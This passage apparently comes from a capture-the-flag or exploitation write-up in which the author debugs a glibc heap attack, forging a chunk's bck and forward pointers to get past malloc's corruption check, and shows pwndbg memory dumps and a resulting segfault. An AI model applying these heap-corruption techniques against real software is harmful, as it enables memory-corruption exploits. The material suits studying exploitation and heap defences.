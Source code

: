 I had properly allocated chunk 4, and when I turedn to chunk 2 I checedk that the `bck` pointer of chunk 2 matched the forward pointer of what it was pointing to (chunk 4). But the forward pointer of chunk 4 had now been overwritten with data. To fix this problem, I needed the `bck` pointer of chunk 2 to point to a bogus forward pointer in an already-allocated chunk that I could overwrite. I decided to use the data section in the first chunk. It looks like I had the right idea, I just forgot that one of my pointers was going to be overwritten before I could use it.

Before the write:
```code
pwndbg> x /26xg 0x237a8b0
0x237a8b0:	0x00000000006014c0	0x0000000000000021
0x237a8c0:	0x0000000002384640	0x0000000000000000
0x237a8d0:	0x000000150000000c	0x0000000000000021
0x237a8e0:	0x00000000023af870	0x0000000002376790
0x237a8f0:	0x0000000000000020	0x0000000000000020
0x237a900:	0x00000000023742a0	0x0000000000000000
0x237a910:	0x0000001d0000000c	0x0000000000000021
0x237a920:	0x00000000023b4660	0x00000000023a7230
0x237a930:	0x0000000000000020	0x0000000000000020
0x237a940:	0x0000000002384650	0x0000000000000000
0x237a950:	0x0000001800000010	0x0000000000000021
0x237a960:	0x00000000023933e0	0x0000000000000000
0x237a970:	0x0000000000000000	0x0000000000000021
```

After the write:
```code
pwndbg> x /26xg 0x237a8b0
0x237a8b0:	0x00000000006014c0	0x0000000000000021
0x237a8c0:	0x000000000237a8d0	0x0000000000000000
0x237a8d0:	0x000000150000000c	0x0000000000000021
0x237a8e0:	0x000000000237a910	0x000000000237a8b0
0x237a8f0:	0x0000000000000020	0x0000000000000020
0x237a900:	0x0000000000000000	0x0000000000000000
0x237a910:	0x0000001d0000000c	0x0000000000000021
0x237a920:	0x0000000000000000	0x000000000237a8d0
0x237a930:	0x0000000000000020	0x0000000000000020
0x237a940:	0x0000000000000000	0x0000000000000000
0x237a950:	0x0000001800000010	0x0000000000000021
0x237a960:	0x0000000000000000	0x0000000000000000
0x237a970:	0x0000000000000000	0x0000000000000021
```

After continuing the program, I made it through the heap corruption check but the program still segfaulted:

```code
Program received signal SIGSEGV (fault address 0x10)
pwndbg> x /26xg 0x237a8b0
0x237a8b0:	0x00000000006014c0	0x0000000000000021
0x237a8c0:	0x00007f1e12b83cb0	0x0000000000000000
0x237a8d0:	0x000000150000000c	0x0000000000000021
0x237a8e0:	0x00007f1e12b83cb0	0x000000000237a8b0
0x237a8f0:	0x0000000000000020	0x0000000000000021
0x237a900:	0x0000000000000000	0x0000000000000000
0x237a910:	0x0000001d0000000c	0x0000000000000021
0x237a920:	0x0000000002646557	0x000000000237a8d0
0x237a930:	0x0000000000000020	0x0000000000000021
0x237a940:	0x0000000000000000	0x0000000000000000
0x237a950:	0x0000001800000010	0x0000000000000021
0x237a960:	0x0000000000000000	0x0000000000000000
0x237a970:	0x0000000000000000	0x0000000000000021
```
I needed the `bck` pointer for the first bin to point to something. It couldn't just be null. The code that was breaking was `bck->fd = bin`, as `0x0` was getting dereferenced. How about pointing to the second chunk? That chunk's forward pointer was already set to what would be getting written there.